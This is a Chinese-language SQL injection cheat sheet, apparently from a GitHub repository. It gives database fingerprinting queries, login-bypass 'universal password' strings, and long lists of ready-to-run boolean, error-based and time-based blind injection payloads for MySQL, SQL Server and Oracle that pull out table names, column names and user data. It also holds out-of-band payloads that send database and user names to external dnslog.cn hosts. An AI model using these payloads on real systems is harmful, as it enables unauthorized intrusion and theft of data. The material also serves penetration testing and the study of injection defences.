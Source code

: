 注入方法
========================================

数据库类型检测
----------------------------------------

acess
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``and exists (select * from msysobjects ) > 0``

MySQL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- sleep 
	- ``sleep(1)``
- benchmark
	- ``BENCHMARK(5000000, MD5('test'))``
- 字符串连接
	- ``select 'ab'='a' 'b'``
	- ``select 'ab'=CONCAT('a','b')``
- version 
    - ``SELECT @@version``
    - ``SELECT version()``
- 数字函数
    - ``connection_id()``
    - ``last_insert_id()``
    - ``row_count()``

Oracle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 字符串连接 
    - ``select 'ab'='a'||'b'``
    - ``select 'ab'=CONCAT('a','b')``
- version 
    - ``SELECT banner FROM v$version``
    - ``SELECT banner FROM v$version WHERE rownum=1``
- 数字函数
	- ``BITAND(1,1)``

SQLServer
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- WAITFOR 
	- ``WAITFOR DELAY '00:00:10';``
- SERVERNAME
	- ``SELECT @@SERVERNAME``
- version
	- ``SELECT @@version``
- 字符串连接
	- ``select 'a'+'b'='ab'``
- 常量
    - ``@@pack_received``
    - ``@@rowcount``
- other
	- ``and exists (select * from sysobjects ) > 0``

PostgreSQL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``pg_sleep(1)``
- ``select version()``
- ``select 'ab'='a'||'b'``
- ``select 'ab'=CONCAT('a','b')``
- ``SELECT EXTRACT(DOW FROM NOW())``

万能密码
-----------------------------------------
- asp aspx万能密码

	``" or "a"="a``
	``') or ('a'='a``
	``or 1=1--``
	``' or 1=1--``
	``a' or '1=1--``
	``" or 1=1--``
	``' or 'a'='a``
	``" or "="a'='a``
	``' or ''='``
	``' or '='or'``
	``1 or '1'='1'=1``
	``1 or '1'='1' or 1=1``
	``' OR 1=1%00``
	``" or 1=1%00``
	``' xor``
	``用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）``
	``密码 1``
	``admin' or 'a'='a 密码随便``

- PHP万能密码

	``'or 1=1/*``
	``User: something``
	``Pass: ' or '1'='1``

- jsp 万能密码

	``1' or '1'='1``
	``admin' or 1=1/*``
	
mysql盲注
--------------------------------------

常用函数
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- length() #返回字符串的长度，例如可以返回数据库名字的长度 
- substr() #用来截取字符串 
- ascii() #返回字符的ascii码
- sleep(n) #将程序挂起⼀段时间，n为n秒
- if(expr1,expr2,expr3) #判断语句 如果第⼀个语句正确就执⾏第⼆个语句如果错误执⾏第三个语句

基于布尔SQL盲注-----构造逻辑判断 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 猜解数据库名长度
	+ ``id=1' and length(database())>8#``
- 二分法猜解数据库名
	+ ``id=1' and ascii(substr(database(),1,1))>97#``
- 猜解数据库表个数
	+ ``id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>1#``
- 猜解表名长度
	+ ``id=1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9#``
- 猜解表名
	+ 猜解第一张表第一个字符：``id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103#``
	+ 猜解第一张表第n个字符：``id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=103#``
	+ 猜解第m张表第n个字符：``id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit m-1,1),n,1))=103#``
- 猜解字段数量
	+ ``id=1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=3 #``
- 猜解字段长度
	+ 猜解第一个字段长度：``id=1' and length(substr((select column_name from information_schema.columns where table_schema=database() and table_name= 'users' limit 0,1),1))=2 #``
	+ 猜解第n个字段长度：``id=1' and length(substr((select column_name from information_schema.columns where table_schema=database() and table_name= 'users' limit n-1,1),1))=7 #``
- 猜解字段名
	+ 猜解第一个字段的第一个字符：``id=1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name= 'users' limit 0,1),1,1))=105 #``
	+ 猜解第m个字段的第n个字符：``id=1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name= 'users' limit m-1,1),n,1))=105 #``
- 猜解字段数据
	+ 猜解users表下username字段的第一处数据的第一个字符：``id=1' and ascii(substr((select username from security.users limit 0,1),1,1))=97 #``
	+ 猜解users表下username字段的第m处数据的第n个字符：``id=1' and ascii(substr((select username from security.users limit m-1,1),n,1))=97 #``
- 暴力猜解username字段是否存在admin用户
	+ ``1' and (select count(*) from security.users where username = 'admin') = 1 #``
- ``ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23``
	+ mid(a,b,c)从位置b开始，截取a字符串的c位 
	+ ORD函数为返回第一个字符的ASCII码
- regexp正则注入
	+ ``select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));``
	+ 当正确的时候显示结果为1，不正确的时候显示结果为0. 
- like匹配注入
	+ ``select user() like 'ro%'``
	
基于报错的SQL盲注
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;``
	+ ``select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))``
- ``select exp(~(select * FROM(SELECT USER())a))``
	+ double数值类型超出范围,Exp()为以e为底的对数函数；版本在5.5.5及其以上
- ``select !(select * from (select user())x) - ~0``
	+ bigint超出范围；~0是对0逐位取反，很大的版本在5.5.5及其以上
- ``extractvalue(1,concat(0x7e,(select @@version),0x7e))``
- ``updatexml(1,concat(0x7e,(select @@version),0x7e),1)``
	+ mysql对xml数据进行查询和修改的xpath函数，xpath语法错误
- ``select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;``
	+ mysql重复特性，此处重复了version，所以报错
	
基于时间的SQL盲注----------延时注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 关键语句：if判断语句，条件为假，执行sleep
	+ ``If(ascii(substr(database(),1,1))>115,0,sleep(5))%23``
- ``UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM (select database() as current) as tb1;``
	+ BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。
- 猜解数据库名
	+ id=1' and if(ascii(substr(database(),1,1))>97,sleep(5),1)#
- 猜解表的数量
	+ ``id=1' and if((select count(table_name) from information_schema.tables where table_schema=database())=4,sleep(5),1)#``
- 猜解表名长度
	+ 猜测第一张表名长度：``id=1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6,sleep(5),1)#``
	+ 猜测第n张表名长度：``id=1' and if(length((select table_name from information_schema.tables where table_schema=database() limit n-1,1))=6,sleep(5),1)#``
- 猜解表名
	+ 猜测第一张表名的第一个字符：``id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>101,sleep(5),1)#``
	+ 猜测第m张表名的第n个字符：``id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit m-1,1),n,1))>101,sleep(5),1)#``
- 猜解字段的数量
	+ ``id=1' and if((select count(column_name) from information_schema.columns where table_name=0x656D61696C73 )=2,sleep(5),1)#``
- 猜解列的长度
	+ ``id=1' and if(length((select column_name from information_schema.columns where table_schema=database() and table_name=0x656D61696C73 limit 0,1))=2,sleep(5),1)#``
- 猜解列名
	+ 猜解第一列的第一个字符：``id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=0x656D61696C73 limit 0,1 ),1,1))=105,sleep(5),1)#``
	+ 猜解第m列的第n个字符：``id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=0x656D61696C73 limit m-1,1 ),n,1))=105,sleep(5),1)#``
- 猜解列中有多少行数据
	+ ``id=1' and if((select count(*) from security.users)=14,sleep(5),1)#``
- 猜解列中的数据
	+ ``id=1' and if(ascii(substr((select username from security.users limit 0,1),1,1))=119,sleep(5),1)#``

mssql盲注
--------------------------------------

布尔盲注
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 测试数据库名个数
	+ ``id=1 and 1=(select count(*) from master.dbo.sysdatabases where dbid=5)``
- 根据dbid字段猜库名长度
	+ ``id=1 and 1=(select count(*) from master.dbo.sysdatabases where dbid=5 and len(name)>4)``
- 根据dbid字段挨个查询数据库名
	+ ``id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases where dbid=5),1,1)) >81``
	+ 查询数据库名第一个字符
- 查表名长度
	+ 查当前数据库第一个表名长度：``id=1 and 1=(select count(*) from sysobjects where name in (select top 1 name from sysobjects where xtype='u') and len(name)>22)``
	+ 查当前数据库第二个表名长度: ``id=1 and 1=(select count(*) from sysobjects where name in (select top 1 name from sysobjects where xtype='u' and name != 'Portal_Announcementscat')  and len(name)=20)``
	+ 查数据库DianCMS第一个表名长度：``id=1 and 1=(select count(*) from DianCMS.dbo.sysobjects where name in (select top 1 name from DianCMS.dbo.sysobjects where xtype='u') and len(name)>1)``
- 猜解表名
	+ 猜解表名第一个字符：``id=1 and 1=(select count(*) from sysobjects where name in (select top 1 name from sysobjects where xtype='u') and ascii(substring(name,1,1))=80)``
	+ 猜解其他表：``id=1 and 1=(select count(*) from sysobjects where name in (select top 1 name from sysobjects where xtype='u' and name not in ('Portal_Announcementscat','Portal_Announcements')) and ascii(substring(name,1,1))=117)``
- 猜解列名长度
	+ ``id=1 and exists(select top 1 name from syscolumns where id =(select id from sysobjects where name = 'Portal_Announcementscat') and len(name)=5)``
	+ ``id=1 and 1=(select count(*) from syscolumns where id = (select id from sysobjects where name = 'Portal_Announcementscat')  and len(name)=5)``
	+ 猜解其他列名长度：``id=1 and exists(select top 1 name from syscolumns where id =(select id from sysobjects where name = 'Portal_Announcementscat') and name not in ('catid') and len(name)=8)``
- 猜解列名
	+ 猜解列名第一个字符：``id=1 and ascii(substring((select top 1 name from syscolumns where id=(select id from sysobjects where xtype=0x75 and name='Portal_Announcementscat')),1,1)) =99``
	+ 猜解列名第一个字符：``id=1 and exists(select top 1 name from syscolumns where id =(select id from sysobjects where name = 'Portal_Announcementscat') and unicode(substring(name,1,1))=99)``
	+ 猜解其他列名：``id=1 and ascii(substring((select top 1 name from syscolumns where id=(select id from sysobjects where xtype=0x75 and name='Portal_Announcementscat') and name not in ('catid')),1,1)) =109``
- 猜解数据
	+ 猜解opusername列第一个字符：``id=1 and ascii(substring((select top 1 opusername from Portal_Announcementscat),1,1)) = 97``
	
时间盲注
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 判断是否存在时间盲注
	+ ``id=1 WAITFOR DELAY '0:0:5'--``
- 判断数据库名是否存在
	+ dbid逐渐+1：``id=1 if ((select count(*) from master.dbo.sysdatabases where dbid=5)=1) waitfor delay '0:0:3'--``
- 猜解库名长度
	+ ``id=1 if ((select count(*) from master.dbo.sysdatabases where dbid=9 and len(name)=2)=1) waitfor delay '0:0:5'--``
- 猜数据库名
	+ ``id=1 if (ascii(substring((select top 1 name from master.dbo.sysdatabases where dbid=9),1,1)) = 111) WAITFOR DELAY '0:0:5'--``
	+ ``id=1 if (ascii(substring((select top 1 name from master.dbo.sysdatabases where dbid=9),2,1)) = 97) WAITFOR DELAY '0:0:5'--``
- 猜解表名长度
	+ ``id=1 if ((select count(*) from oa.dbo.sysobjects where name in (select top 1 name from oa.dbo.sysobjects where xtype='u') and len(name)=23)=1) WAITFOR DELAY '0:0:5'--``
	+ ``id=1 if ((select count(*) from oa.dbo.sysobjects where name in (select top 1 name from oa.dbo.sysobjects where xtype='u' and name not in ('Portal_Announcementscat')) and len(name)=20)=1) WAITFOR DELAY '0:0:5'--``
- 猜解表名
	+ ``id=1 if ((select count(*) from oa.dbo.sysobjects where name in (select top 1 name from oa.dbo.sysobjects where xtype='u') and ascii(substring(name,1,1))=80)=1) WAITFOR DELAY '0:0:5'--``
	+ ``id=1 if ((select count(*) from oa.dbo.sysobjects where name in (select top 1 name from oa.dbo.sysobjects where xtype='u' and name not in ('Portal_Announcementscat')) and ascii(substring(name,1,1))=80)=1) WAITFOR DELAY '0:0:5'--``
- 猜解列名长度
	+ ``id=1 if(exists(select top 1 name from oa.dbo.syscolumns where id =(select id from oa.dbo.sysobjects where name = 'Portal_Announcementscat') and len(name)=5)) WAITFOR DELAY '0:0:5'--``
	+ ``id=1 if((select count(*) from oa.dbo.syscolumns where id =(select id from oa.dbo.sysobjects where name = 'Portal_Announcementscat') and len(name)=5)>0) WAITFOR DELAY '0:0:5'--``
	+ 猜解其他列名长度：``id=1 if(exists(select top 1 name from oa.dbo.syscolumns where id =(select id from oa.dbo.sysobjects where name = 'Portal_Announcementscat') and name not in ('catid') and len(name)=8)) WAITFOR DELAY '0:0:5'--``
- 猜解列名
	+ 猜解列名第一个字符：``id=1 if (ascii(substring((select top 1 name from syscolumns where id=(select id from sysobjects where xtype=0x75 and name='Portal_Announcementscat')),1,1)) =99) WAITFOR DELAY '0:0:5'--``
	+ 猜解其他列名：``id=1 if (ascii(substring((select top 1 name from syscolumns where id=(select id from sysobjects where xtype=0x75 and name='Portal_Announcementscat') and name not in ('catid')),1,1)) =109) WAITFOR DELAY '0:0:5'--``
- 猜解数据
	+ ``id=1 if (ascii(substring((select top 1 opusername from Portal_Announcementscat),1,1)) = 97) WAITFOR DELAY '0:0:5'--``
	
OBB带外注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``id=1 and exists(select * from fn_trace_gettable('\\'+(select top 1 name from master..sysdatabases where dbid>4)+'.6etys1.dnslog.cn\1.trc',default))``

Oracle盲注
--------------------------------------

布尔盲注
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 猜用户名(substr)
	+ ``id=1' and (select substr(user,1,1) from dual)='S' --``
	+ ``id=1' and (select substr(user,2,1) from dual)='C' --``
	+ ``id=1' and 666=(case when ascii(substr(user,1,1))=83 then '666' else '555' end)--``
- 猜解表名(substr)
	+ ``id=1' and (select substr((select table_name from user_tables where rownum=1),1,1) from dual)='D' --``
- 猜解列名(substr)
	+ ``id=1' and (select substr((select column_name from user_tab_columns where table_name='USERS' and rownum=1),1,1) from dual)='I' --``
- 猜解数据(substr)
	+ ``id=1' and (select substr((select name from users where rownum=1),1,1) from dual)='x' --``
- 猜解用户名(decode)
	+ ``id=1' and 1=(select decode(substr(user, 1, 1), 'S', (1/1),0) from dual) --``
- 猜解表名(decode)
	+ ``id=1' and 1=(select decode(substr((select table_name from user_tables where rownum=1),1,1),'D',(1),0) from dual)--+``
- 猜解用户名(instr)
	+ ``id=1'and 1=(instr((select user from dual),'SCOTT')) --``
	
时间盲注
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 猜解用户名
	+ ``id=1' and (select decode(substr(user,1,1),'S',dbms_pipe.receive_message('cc',5),0) from dual) is not null--``
	+ ``id=1' and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',10),0) from dual) --``
- 猜解用户名(REPLACE)
	+ ``id=1' and 1=DBMS_PIPE.RECEIVE_MESSAGE('cc', REPLACE((SELECT substr(user, 1, 1) FROM dual), 'S', 5))--``
- 猜解用户名(利用获取大量数据的语句造成时间盲注)
	+ ``id=1' and (select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual) is not null--``

OOB外带
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 前提:需要有发起网络请求的权限
- ``id=1' and (select utl_inaddr.get_host_address((select user from dual)||'.u436mi.dnslog.cn') from dual) is not null--``
- ``id=1' and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.1tu2me.dnslog.cn',80) from dual) is not null--``
- ``id=1' and (SELECT HTTPURITYPE((select user from dual)||'.vob8hd.dnslog.cn').GETCLOB() FROM DUAL) is not null--``